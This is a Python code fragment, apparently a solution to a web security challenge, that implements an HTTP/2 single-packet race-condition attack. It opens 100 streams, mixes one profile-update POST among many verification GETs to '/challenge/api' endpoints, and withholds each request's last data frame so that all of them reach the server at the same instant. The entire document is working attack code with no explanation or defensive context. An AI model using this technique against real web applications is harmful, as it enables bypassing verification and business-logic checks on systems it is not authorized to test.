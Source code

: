 ```python

    h2_conn.setup_connection()

    try_num = 100

    stream_ids_list = h2_conn.generate_stream_ids(number_of_streams=try_num)

    all_headers_frames = []  # all headers frame + data frames which have not the last byte
    all_data_frames = []  # all data frames which contain the last byte


    for i in range(0, try_num):
        last_data_frame_with_last_byte=''
        if i == try_num/2:
            header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  # noqa: E501
                method='POST',
                headers_string=headersObjetivo,
                scheme='https',
                stream_id=stream_ids_list[i],
                authority=host,
                body=bodyObjetivo,
                path='/challenge/api/profile'
            )
        else:
            header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  
                method='GET',
                headers_string=headersVerification,
                scheme='https',
                stream_id=stream_ids_list[i],
                authority=host,
                body=".",
                path='/challenge/api/sendVerification'
            )

        all_headers_frames.append(header_frames_without_last_byte)
        all_data_frames.append(last_data_frame_with_last_byte)


    # concatenate all headers bytes
    temp_headers_bytes = b''
    for h in all_headers_frames:
        temp_headers_bytes += bytes(h)

    # concatenate all data frames which have last byte
    temp_data_bytes = b''
    for d in all_data_frames:
        temp_data_bytes += bytes(d)

    h2_conn.send_bytes(temp_headers_bytes)
    
    
    

    # wait some time
    sleep(0.1)

    # send ping frame to warm up connection
    h2_conn.send_ping_frame()

    # send remaining data frames
    h2_conn.send_bytes(temp_data_bytes)
```